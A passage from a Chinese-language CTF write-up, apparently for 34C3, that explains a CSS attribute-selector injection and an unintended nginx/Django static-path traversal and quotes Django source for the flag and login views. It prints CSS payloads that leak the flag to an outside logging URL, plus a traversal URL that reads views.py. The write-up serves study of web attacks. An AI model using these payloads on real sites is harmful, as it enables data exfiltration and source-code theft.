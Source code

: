 这里还有个小坑

当我们试图使用下面的payload来获取flag时
```
#flag[value^=34C3]{background: url(https://xxx?34c3);}
```
字符串首位的3不会被识别为字符串，必须使用双引号包裹才能正常解析。但是双引号被转义了。

这里我们需要换用`*`

```
*号选择器代表这属性中包含这个字段，由于flag中有_存在，所以不会对flag的获取有影响
```

payload如下
```
#flag[value*=C3_1]{background: url(//l4w.io/rpo/logging.php?flag=C3_1);}
#flag[value*=C3_0]{background: url(//l4w.io/rpo/logging.php?flag=C3_1);}
..
#flag[value*=C3_f]{background: url(//l4w.io/rpo/logging.php?flag=C3_1);}
```

完全的payload我就不专门写了，理解题目的思路比较重要。

整个题目的利用链非常精巧，服务端bot比我想象中要强大很多，有趣的是，整个题目存在配置的非预期，我一度认为非预期解法是正解。

## 非预期 ##

以前在pwnhub第二期中曾经接触到过一个知识点，django的静态资源路由（static）本身就是通过映射静态资源目录实现的，当django使用nginx做反代时，如果nginx配置出现问题，那么就有可能存在导致可以跨目录的读取文件，导致源码泄露。34c3的所有django的web题目都有这个漏洞。

当我们访问
```
http://35.198.114.228/static../views.py
```

就可以获取到源码，让我们锁定flag页面的源码
```
@login_required
def flag(req):
    user_token = req.GET.get("token")
    if not user_token:
        messages.add_message(req, messages.ERROR, 'no token provided')
        return redirect('index')
    user_flag = "34C3_"+hashlib.sha1("foqweqdzq%s".format(user_token).encode("utf-8")).hexdigest()
    return render(req, 'flag.html', dict(user=req.user, 
        valid_token=user_token.startswith(req.user.profile.token), 
        user_flag=user_flag,
        user_token=user_token[:64],))
```

我们可以看到user_flag是通过token生成的，而token是登陆时随机生成的

```
def login(req):
    if req.user.is_authenticated:
        return redirect('index')

    if req.method == "POST":
        username = req.POST.get("username")
        password = req.POST.get("password")
        if not username or not password:
            messages.add_message(req, messages.ERROR, 'No username/password provided')
        elif len(password) < 8:
            messages.add_message(req, messages.ERROR, 'Password length min 8.')
        else:
            user, created = User.objects.get_or_create(username=username)
            if created:
                user.set_password(password)
                user.save()
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png